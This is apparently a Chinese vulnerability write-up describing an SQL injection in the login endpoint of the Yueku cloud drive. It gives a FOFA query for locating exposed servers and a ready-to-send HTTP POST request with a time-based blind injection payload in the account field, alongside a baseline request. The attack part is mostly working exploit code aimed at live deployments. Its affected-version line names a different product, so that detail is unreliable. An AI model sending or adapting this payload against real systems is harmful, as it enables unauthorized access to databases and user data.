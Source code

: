 # 悦库网盘aRegisAdmin存在SQL注入漏洞

# 一、漏洞简介
悦库网盘系统是一款功能强大的云存储平台，提供安全可靠的文件存储、共享和管理解决方案。该系统具有灵活的存储容量、文件同步、多终端访问等特性，支持跨平台的文件分享和团队协作。悦库网盘系统采用先进的加密技术确保数据安全，并提供了用户友好的界面和多样化的权限管理功能，满足个人用户、企业团队和教育机构的不同需求。悦库网盘aRegisAdmin存在SQL注入漏洞

# 二、影响版本
+ 企慧通教育系统

# 三、资产测绘
+ fofa`<font style="color:rgb(51, 51, 51);">app=</font><font style="color:rgb(221, 17, 68);">"悦库-悦库网盘"</font>`

![1718298354037-b753585e-1dcd-4e0b-8eec-1400ed166620.png](./img/WtGy-d6GGtrILpmK/1718298354037-b753585e-1dcd-4e0b-8eec-1400ed166620-817530.png)

# 四、漏洞复现
```java
POST /user/login/.html HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Cookie: windowWidth=1036; windowHeight=846; yid=4m6jbq6mrd5mui6ul2gr3s9fl4; lang=zh-cn; device=desktop; theme=default
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 154

account=admin') AND (SELECT 4215 FROM (SELECT(SLEEP(5)))CFVi)-- WUij&password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918&clientId=5E9B11EB90214398ADA353DF7F014E9C&referer=&keepLogin=false
```

![1718298437044-3bce6637-6009-4b59-b1e6-66eb178f5df4.png](./img/WtGy-d6GGtrILpmK/1718298437044-3bce6637-6009-4b59-b1e6-66eb178f5df4-331145.png)

```java
POST /user/login/.html HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Cookie: windowWidth=1036; windowHeight=846; yid=4m6jbq6mrd5mui6ul2gr3s9fl4; lang=zh-cn; device=desktop; theme=default
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 154

account=admin&password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918&clientId=5E9B11EB90214398ADA353DF7F014E9C&referer=&keepLogin=false
```

![1718298399701-682e6608-1c88-42b2-8c9e-60bfd0a3b5a3.png](./img/WtGy-d6GGtrILpmK/1718298399701-682e6608-1c88-42b2-8c9e-60bfd0a3b5a3-686633.png)



> 更新: 2024-06-17 09:34:03  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/iqb1350wkn2bu5qd>